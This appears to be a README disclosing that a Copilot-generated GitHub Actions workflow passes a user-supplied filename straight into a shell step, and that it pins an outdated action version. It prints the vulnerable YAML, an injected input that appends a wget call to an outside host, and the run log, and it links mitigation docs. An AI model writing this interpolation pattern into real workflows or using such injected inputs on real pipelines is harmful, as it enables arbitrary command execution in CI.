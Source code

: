 # copilot-gha-vul-command-injection

Today 2024-12-18, GitHub copilot is [General Availabe](https://github.blog/changelog/2024-12-18-copilot-chat-on-github-is-now-generally-available-for-all-users/), anyone can use GitHub Copilot for free at https://github.com/copilot or with editor like VSCode.

Using the latest model GPT 4o, I tried to create a GitHub action to run a command with user input. The generated code at https://github.com/hvnsweeting/copilot-gha-vul-command-injection/blob/main/.github/workflows/run-python-script.yml , main part:

```yaml

    - name: Run Python script
      run: python main.py ${{ github.event.inputs.filename }}

    - name: Create Pull Request
      uses: peter-evans/create-pull-request@v3

```
 could work after some modifcation i.e. [allow action to WRITE](https://github.com/ad-m/github-push-action/issues/96#issuecomment-889984928), it has serious security issues:

## Command injection
Users who can run the action (e.g in an org) can execute any command by add `; command` to the filename input. For example here run with filename

```
input.txt; wget -O- https://httpbin.org/get 
```

and result is


```

Run python main.py input.txt; wget -O- https://httpbin.org/get 
  python main.py input.txt; wget -O- https://httpbin.org/get 
  shell: /usr/bin/bash -e {0}
  env:
    pythonLocation: /opt/hostedtoolcache/Python/3.12.8/x64
    LD_LIBRARY_PATH: /opt/hostedtoolcache/Python/3.12.8/x64/lib
--2024-12-19 13:42:12--  https://httpbin.org/get
Resolving httpbin.org (httpbin.org)... 34.226.108.155, 98.85.100.80
Connecting to httpbin.org (httpbin.org)|34.226.108.155|:443... connected.
HTTP request sent, awaiting response... 200 OK
...
```
https://github.com/hvnsweeting/copilot-gha-vul-command-injection/actions/runs/12413871568/job/34656690134

This vul is so popular, it is always on top 10 OWASP https://owasp.org/www-community/attacks/Command_Injection
that's maybe the reason Copilot **learned** it.

## Use old version of action

```
create-pull-request@v3
```
Current version is v7

v3 was released `Feb 28, 2022`, there were 366 commits between them https://github.com/peter-evans/create-pull-request/compare/v3...v7

### Mitigation

While this is buried under "Security" section of GitHub Action docs, user who use GitHub copilot likely won't every open it. 

https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions#example-of-a-script-injection-attack

### Should not trust Copilot than anyone on internet :joy:
### Work with GitHub action is painful :cry: